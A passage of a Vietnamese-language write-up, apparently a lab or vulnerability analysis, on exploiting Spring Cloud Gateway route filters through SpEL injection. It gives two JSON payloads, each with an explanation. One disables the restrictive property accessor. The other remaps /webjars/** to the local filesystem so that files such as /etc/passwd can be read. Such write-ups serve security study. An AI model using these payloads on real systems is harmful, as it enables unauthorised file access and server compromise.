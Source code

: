 ![image](https://hackmd.io/_uploads/ryQtUYv0ll.png)

Tạo route mới có tên testabc ở phần server trả về 201 đã thành công tạo bây giờ ta sẽ refresh để apply route mới vào.

![image](https://hackmd.io/_uploads/ryxXwYvClg.png)

Thành công refresh lại.

Trong payload của ta sẽ có các filter để áp dụng vào trong route bao gồm : 

- **Filter 1: Bypass hạn chế truy cập SpEL**

```json 
{
  "name": "AddResponseHeader",
  "args": {
    "name": "Test",
    "value": "#{@systemProperties['spring.cloud.gateway.server.webflux.restrictive-property-accessor.enabled'] = false}"
  }
}
```

Mục đích:
- Vô hiệu hóa thuộc tính spring.cloud.gateway.server.webflux.restrictive-property-accessor.enabled, vốn mặc định là true.
Hành động:
- Thuộc tính này kiểm soát quyền truy cập vào các property nhạy cảm trong Spring WebFlux. Khi được đặt thành false, nó cho phép SpEL truy cập và chỉnh sửa những property hoặc thực thi các phương thức nguy hiểm.
Hậu quả:
- Các filter khác có thể sử dụng SpEL để thực hiện các hành động nguy hiểm hơn, chẳng hạn như đọc hoặc ghi dữ liệu nhạy cảm.

- **Filter 2: Expose file system qua mapping /webjars/**

```json 
{
  "name": "AddResponseHeader",
  "args": {
    "name": "Test",
    "value": "#{@resourceHandlerMapping.urlMap['/webjars/**'].locationValues[0]='file:///' }"
  }
}
```

Mục đích:
- Thay đổi mapping của đường dẫn /webjars/** để trỏ đến hệ thống file cục bộ (file:///).
Hành động:
- Thuộc tính urlMap của bean resourceHandlerMapping được chỉnh sửa để ánh xạ mọi request tới /webjars/** vào hệ thống tệp cục bộ.
Hậu quả:
- Kẻ tấn công có thể truy cập file system của máy chủ thông qua HTTP chẳng hạn như là `GET /webjars/etc/passwd`.
